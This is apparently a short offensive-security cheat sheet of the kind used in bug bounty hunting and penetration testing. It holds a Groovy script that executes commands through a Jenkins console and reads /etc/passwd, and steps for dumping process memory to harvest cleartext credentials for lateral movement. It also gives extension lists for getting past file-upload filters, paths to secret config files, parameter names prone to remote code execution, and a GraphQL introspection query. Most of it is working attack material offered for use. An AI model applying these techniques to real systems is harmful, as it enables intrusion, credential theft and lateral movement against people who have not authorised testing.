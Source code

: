 ### RCE on Jenkins Instance
##### To Display /etc/passwd
```java
def sout=new StringBuilder(), serr=new() StringBuilder()
def proc='cat /etc/passwd'.execute()
proc.consumeProcessOutput(sout,serr)
proc.waitForOrKill(1000)
println "out>$sout err> $serr"
```
### Got Root shell on a *nix system? Need to move laterally?
1. Find Processess where people might be logged in.Run (ps -A)
2. gcore $PID.
3. strings core.$PID.
4. Read credentials in clear Text. 

### Extension list for File Upload Bugs
```js
ASP ==> .aspx,.config,.ashx,.asmx,.aspq,.axd,.cshtm,.cshtml,.rem,.soap,.vbhtm,.vbhtml,.asa,.asp,.cer,.shtml
```
```js
PHP ==> .php,.php5,php3,.php2,.shtml,.html,.php.png(double extension attack)
```
#### Common Secret file paths
```sh
/.config.php,/.git.config/,////../../data/config/microsrv.cfg,//admin/config.php,/admin/config.php/,/administrator/webconfig.txt.php,/app.config,/audit.config,/Cassini.exe.config,/ccnet.config,/cgi-bin/config.exp,/conceptual.config,/config,/config.inc,/config.inc.php
```

### Common RCE Vulnerable Parameters
```sh
cmd,exec,command,execute,ping,query,jump,code,reg,do,func,arg,option,load,process,step,read,function,req,feature,exe,module,payload,run,print
```
### Found Grapql Endpoint
Send the following query to list the whole schema of the endpoint. it will list all objects and the fields they have.
```graphql
{
    __schema
    {
        types{
            name,
            kind,
            description,
            fields
            {
                name,
                type
                {
                    name
                }
            }
        }
    }
}
```
###### Note : If introspection is disabled it doesn't work.
### Recon Tip